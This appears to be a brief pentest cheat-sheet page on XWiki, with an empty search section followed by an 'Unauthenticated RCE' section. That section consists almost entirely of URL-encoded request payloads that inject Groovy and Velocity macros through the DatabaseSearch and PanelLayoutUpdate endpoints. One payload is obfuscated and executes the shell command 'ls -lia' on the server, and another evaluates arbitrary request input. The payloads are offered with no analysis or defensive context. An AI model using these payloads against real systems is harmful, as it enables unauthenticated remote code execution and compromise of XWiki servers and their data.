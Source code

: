 # XWiki

## Search

```
// Some code
```

## Exploit

### Unauthenticated RCE

```
Host/xwiki/bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7d%7d%7d%7b%7b%61%73%79%6e%63%20%61%73%79%6e%63%3d%66%61%6c%73%65%7d%7d%7b%7b%67%72%6f%6f%76%79%7d%7d%64%65%66%20%70%72%6f%63%65%73%73%20%3d%20%22%6c%73%20%2d%6c%69%61%22%2e%65%78%65%63%75%74%65%28%29%0a%70%72%69%6e%74%6c%6e%20%22%46%6f%75%6e%64%20%74%65%78%74%20%24%7b%70%72%6f%63%65%73%73%2e%74%65%78%74%7d%22%7b%7b%2f%67%72%6f%6f%76%79%7d%7d%7b%7b%2f%61%73%79%6e%63%7d%7d%20
```

> xwiki/bin/get/Main/DatabaseSearch?outputSyntax=plain\&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Hello%20from%22%20%2B%20%22%20search%20text%3A%22%20%2B%20%2823%20%2B%2019%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20



> xwiki/bin/view/Panels/PanelLayoutUpdate?place=%7B%7B%2Fhtml%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bvelocity%7D%7D%23evaluate(%24request.eval)%7B%7B%2Fvelocity%7D%7D%7B%7B%2Fasync%7D%7D\&eval=Hello%20from%20URL%20Parameter!%20I%20got%20programming%3A%20%24services.security.authorization.hasAccess(%27programming%27)

> xwiki/bin/get/Main/DatabaseSearch?outputSyntax=plain\&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Hello%20from%22%20%2B%20%22%20search%20text%3A%22%20%2B%20%2823%20%2B%2019%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20
